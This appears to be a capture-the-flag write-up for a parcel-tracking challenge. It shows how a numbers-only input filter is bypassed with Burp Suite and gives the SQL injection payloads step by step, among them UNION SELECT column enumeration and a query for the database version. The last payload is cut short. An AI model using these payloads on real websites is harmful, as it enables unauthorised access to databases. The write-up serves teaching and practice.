 The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

5. Enter the id with SQL syntax below
    
    -1' UNION SELECT null,null,null,null,null,null-- 
    (Note: Insert space after last dash)

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

    -1' UNION SELECT null,null,null,null,null,@@version-- 
    (Note: Insert space after last dash)

8. After get the version and what type of the database, we can figure out how their syntax to enter. Enter next command:

    -1' UNION SELECT null,null,null,null,null,information.-- 
    (Note: Insert space after last dash)

